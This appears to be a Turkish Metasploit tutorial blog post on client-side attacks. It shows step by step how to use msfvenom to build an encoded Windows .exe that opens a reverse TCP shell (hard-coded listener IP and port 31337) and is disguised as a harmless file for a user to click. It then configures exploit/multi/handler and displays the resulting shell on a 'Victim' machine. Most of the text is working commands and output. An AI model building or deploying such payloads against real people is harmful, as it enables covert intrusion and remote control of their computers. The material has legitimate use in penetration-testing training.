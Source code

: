```yaml
---
draft: false

title:  'MSF Binary Payloads'
date: '2017-05-20T13:10:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  'İstemci tarafı saldırılar, tüm ağ yöneticilerinin dikkat etmesi gerekli türden saldırılardır. Sisteminizin güvenliğini ne kadar sağlasanız da istemci tarafı saldırılar, kullanıcılarınızın zafiyetlerini kullanırlar.' 
 
url:  /tr/msf-binary-payloads/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## İstemci Taraflı Saldırılar



İstemci tarafı saldırılar, tüm ağ yöneticilerinin dikkat etmesi gerekli türden saldırılardır. Sisteminizin güvenliğini ne kadar sağlasanız da istemci tarafı saldırılar, kullanıcılarınızın zafiyetlerini kullanırlar.



Pentest işlemi gerçekleştirenler, sistemde bulunan kullanıcının, bir şekilde linke tıklamasını veya zararlı yazılım çalıştırmasını sağladığında kendilerine hedef sistemde kapı açmış olurlar. Bu sebeple, istemci taraflı saldırılar, kullanıcıyla etkileşim gerektirmektedir. Bu tür saldırılar, sosyal mühendislik çalışmalarını da gerektirir.



Metasploit Framework, bu tür zararlı kodların oluşturması için bir çok modül sağlamaktadır.



## binary payloads



binary payloads olarak adlandırılan çalıştırılabilir dosyalar, zararsız .exe dosyaları gibi görünse de aslında içinde tehlikeli kodlar bulunduran dosyalardır. Dosyayı alacak kullanıcıya, önemli bir dosya hissi uyandırarak tıklaması sağlanır ve zararlı kod çalışır.



Bu yazıda, Metasploit Framework tarafından sağlanan `msfvenom` komut satırı aracı kullanılacaktır. `msfvenom` kullanarak `.exe`, `perl` veya `c` program çıktıları elde edebilirsiniz. Burada `.exe` formatı kullanılacaktır.



## Windows Reverse Shell Açan Payload Oluşturma



Hedef kullanıcının zararlı programı çalıştırdığında dinleyen IP adresine bağlanması için bir payload oluşturmak için `windows/shell/reverse_tcp` modülünü kullanacağız. Öncelikle bu modülün çalışmak için hangi değişkenlere ihtiyaç duyduğuna bakalım.


```bash
root@kali:~# msfvenom --payload-options -p windows/shell/reverse_tcp
Options **for **payload/windows/shell/reverse_tcp:


       Name: Windows Command Shell, Reverse TCP Stager
     Module: payload/windows/shell/reverse_tcp
   Platform: Windows
       Arch: x86
Needs Admin: No
 Total size: 281
       Rank: Normal

Provided by:
    spoonm 
    sf 
    hdm 
    skape 

Basic options:
Name      Current Setting  Required  Description
----      ---------------  --------  -----------
EXITFUNC  process          yes       Exit technique **(**Accepted: '', seh, thread, process, none**)**
LHOST                      yes       The listen address
LPORT     4444             yes       The listen port

Description:
  Spawn a piped command shell **(**staged**)**. Connect back to the attacker
```



Bu modül, çıktıda görüldüğü gibi `LHOST` ve `LPORT` değişkenlerinin ayarlanmasına ihtiyaç duymaktadır. Hedef platform olarak x86 mimari ve Windows işletim sistemi seçilmiştir. Oluşturacağımız payload için bir encoder kullanmamız gerekiyor. Bunun için de `x86/shikata_ga_nai` encoder modülünü kullanacağız. Bu şartlar altında aşağıdaki komut, encoder kullanarak `/tmp` klasörünün içinde `1.exe` isimli bir dosya oluşturacaktır.


```bash
root@kali:~# msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST**=**172.16.104.130 LPORT**=**31337 -b "\x00" -e x86/shikata_ga_nai -f exe -o /tmp/1.exe
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 326 **(**iteration**=**0**)**
x86/shikata_ga_nai chosen with final size 326
Payload size: 326 bytes
Saved as: /tmp/1.exe
```



`1.exe` dosyamızın türünü kontrol edelim. `file` komutuyla yaptığımız kontrolde `1.exe` doyasının MS Windows dosyası olduğu aşağıda görülmektedir.


```bash
root@kali:~# file /tmp/1.exe
/tmp/1.exe: PE32 executable **(**GUI**)** Intel 80386, **for **MS Windows
```



## Dinleme Ayarları



Elimizde istemcinin tıklayıp çalıştıracağı `1.exe` dosyası artık hazır durumda. Şimdi, tıklama işlemi gerçekleştiğinde dinleyecek bir modülü çalıştırmamız gerekiyor. Bunun için `exploit/multi/handler` modülünü ve içinde `payload windows/shell/reverse_tcp` dinleyici payload u kullanacağız.



Öncelikle `exploit/multi/handler` modülünü yükleyip seçeneklere bakalım.


```bash
msf **&gt;** use exploit/multi/handler
msf exploit**(**handler**)** **&gt;** show options

Module options:

   Name  Current Setting  Required  Description 
   ----  ---------------  --------  ----------- 


Exploit target:

   Id  Name            
   --  ----            
   0   Wildcard Target
```



Gördüğünüz gibi exploit modülünde herhangi bir zorunlu değişken bulunmuyor. Şimdi payload ayarlaması yapalım.


```bash
msf exploit**(**handler**)** **&gt;** set payload windows/shell/reverse_tcp
payload **=&gt;** windows/shell/reverse_tcp
msf exploit**(**handler**)** **&gt;** show options

Module options:

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options **(**windows/shell/reverse_tcp**)**:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique: seh, thread, process
   LHOST                      yes       The local address
   LPORT     4444             yes       The local port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target 
```



Bu çıktıda görülmektedir ki Payload için `LHOST` ve `LPORT` değerlerinin girilmesi gerekmekte.



`LHOST`: Local Host yani yerelde dinleyecek IP adresini,



`LPORT`: Local Port, yani dinleyecek Port numarasını ifade eder.



Bu değerlerin, `msfvenom` komutuyla oluşturduğumuz `1.exe` dosyası için girdiğimiz değerler ile aynı olmasına dikkat edin. `1.exe` dosyası içinde hangi değerler gömülü ise zararlı yazılım bu bilgilere göre haberleşme sağlamak isteyecektir.


```bash
msf exploit**(**handler**)** **&gt;** set LHOST 172.16.104.130
LHOST **=&gt;** 172.16.104.130
msf exploit**(**handler**)** **&gt;** set LPORT 31337
LPORT **=&gt;** 31337
msf exploit**(**handler**)** **&gt;**
```



Tüm ayarlamaları yaptıktan sonra `exploit` komutuyla modül çalıştırılır ve dinlemeye başlanır. Aşağıda, dinleme sonucunda gerçekleşen bir istemci tıklaması sonucu açılan komut satırı görülmektedir.


```bash
msf exploit**(**handler**)** **&gt;** exploit

**[*********]** Handler binding to LHOST 0.0.0.0
**[*********]** Started reverse handler
**[*********]** Starting the payload handler...
**[*********]** Sending stage **(**474 bytes**)**
**[*********]** Command shell session 2 opened **(**172.16.104.130:31337 -&gt; 172.16.104.128:1150**)**

Microsoft Windows XP **[**Version 5.1.2600]
**(**C**)** Copyright 1985-2001 Microsoft Corp.

C:\Documents and Settings\Victim\My Documents&gt;
```
